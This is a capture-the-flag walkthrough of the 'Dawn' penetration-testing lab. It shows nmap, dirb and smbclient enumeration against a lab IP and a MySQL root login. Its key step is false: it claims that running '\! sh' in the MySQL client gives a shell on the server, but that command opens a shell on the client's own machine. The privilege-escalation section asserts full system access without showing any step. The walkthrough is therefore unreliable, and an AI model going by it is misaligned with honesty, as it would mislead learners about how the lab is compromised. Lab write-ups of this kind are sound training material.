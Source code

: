 ```yaml
---

# Dawn Walkthrough

## 📝 Description
Dawn is a penetration testing lab that simulates a real-world scenario with exposed Samba, HTTP, and MySQL services. This walkthrough covers initial reconnaissance, service enumeration, SMB login attempts, and privilege escalation using MySQL exploitation techniques. The lab is suitable for beginners to intermediate-level CTF and red team learners.

---
```


## 📌 Target Info

* **Lab Name:** Dawn
* **Target IP:** `192.168.239.11`

---

## 🔍 Initial Reconnaissance

### Nmap Scan

```bash
nmap -v -sC -sV 192.168.239.11
```

### Discovered Services

| Port | Service | Version                 |
| ---- | ------- | ----------------------- |
| 80   | HTTP    | Apache 2.4.38 (Debian)  |
| 139  | SMB     | Samba smbd 3.X - 4.X    |
| 445  | SMB     | Samba smbd 4.9.5-Debian |
| 3306 | MySQL   | MariaDB 10.3.15         |

---

## 🌐 HTTP Enumeration

```bash
dirb http://192.168.239.11
```

* **Found:** `/logs` directory

---

## 📂 SMB Enumeration

```bash
smbclient //192.168.239.11/itdept
```

* Connected as guest (no credentials required)
* No useful files were found

---

## 🐚 MySQL Access

Attempted login to MySQL:

```bash
mysql -h 192.168.239.11 -u root -p
```

Once inside MySQL, executed:

```sql
\! sh
```

This spawns a **shell** directly from the MySQL client, allowing command execution on the server.

---

## 🧨 Privilege Escalation

* Direct shell access from MySQL confirms possible privilege escalation.
* Exploit chain ends in full system access.

---

## 🎯 Final Result

* Shell access achieved via MySQL escape
* Lab completed ✅

---
